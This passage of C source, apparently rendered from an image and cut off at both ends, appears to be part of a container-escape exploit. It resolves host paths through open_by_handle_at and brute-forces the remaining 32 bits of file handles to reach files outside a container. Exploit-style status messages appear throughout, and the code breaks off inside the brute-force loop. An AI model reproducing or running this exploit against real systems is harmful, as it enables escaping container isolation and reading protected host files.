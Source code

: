 ```c
  unsigned int handle_bytes;
  int handle_type;
  unsigned char f_handle[8];
};
void die(const char * msg) {
  perror(msg);
  exit(errno);
}
void dump_handle(const struct my_file_handle * h) {
  fprintf(stderr, "[*] #=%d, %d, char nh[] = {", h -> handle_bytes,
    h -> handle_type);
  for (int i = 0; i < h -> handle_bytes; ++i) {
    fprintf(stderr, "0x%02x", h -> f_handle[i]);
    if ((i + 1) % 20 == 0)
      fprintf(stderr, "\n");
    if (i < h -> handle_bytes - 1)
      fprintf(stderr, ", ");
  }
  fprintf(stderr, "};\n");
} 
int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle *oh)
{
  int fd;
  uint32_t ino = 0;
  struct my_file_handle outh = {
    .handle_bytes = 8,
    .handle_type = 1
  };
  DIR * dir = NULL;
  struct dirent * de = NULL;
  path = strchr(path, '/');
  // recursion stops if path has been resolved
  if (!path) {
    memcpy(oh -> f_handle, ih -> f_handle, sizeof(oh -> f_handle));
    oh -> handle_type = 1;
    oh -> handle_bytes = 8;
    return 1;
  }
  ++path;
  fprintf(stderr, "[*] Resolving '%s'\n", path);
  if ((fd = open_by_handle_at(bfd, (struct file_handle * ) ih, O_RDONLY)) < 0)
    die("[-] open_by_handle_at");
  if ((dir = fdopendir(fd)) == NULL)
    die("[-] fdopendir");
  for (;;) {
    de = readdir(dir);
    if (!de)
      break;
    fprintf(stderr, "[*] Found %s\n", de -> d_name);
    if (strncmp(de -> d_name, path, strlen(de -> d_name)) == 0) {
      fprintf(stderr, "[+] Match: %s ino=%d\n", de -> d_name, (int) de -> d_ino);
      ino = de -> d_ino;
      break;
    }
  }
  fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
  if (de) {
    for (uint32_t i = 0; i < 0xffffffff; ++i) {
      outh.handle_bytes = 8;
      outh.handle_type = 1;
      memcpy(outh.f_handle, & ino, sizeof(ino));
      memcpy(outh.f_handle + 4, & i, sizeof(i));
```